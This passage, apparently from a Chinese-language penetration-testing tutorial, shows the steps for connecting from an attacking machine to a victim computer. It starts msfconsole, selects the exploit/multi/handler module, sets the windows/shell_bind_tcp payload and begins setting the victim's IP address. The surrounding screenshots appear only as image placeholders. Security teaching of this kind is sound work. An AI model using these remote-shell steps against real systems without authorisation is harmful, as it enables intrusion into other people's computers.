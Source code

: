 ![](img/00270.jpeg)

现在，它正在等待我们的连接。从我们的攻击机器启动 Metasploit：

```
$ msfconsole
```

然后，选择要连接到受害计算机的处理程序：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害机器的 IP 地址：

![](img/00271.jpeg)
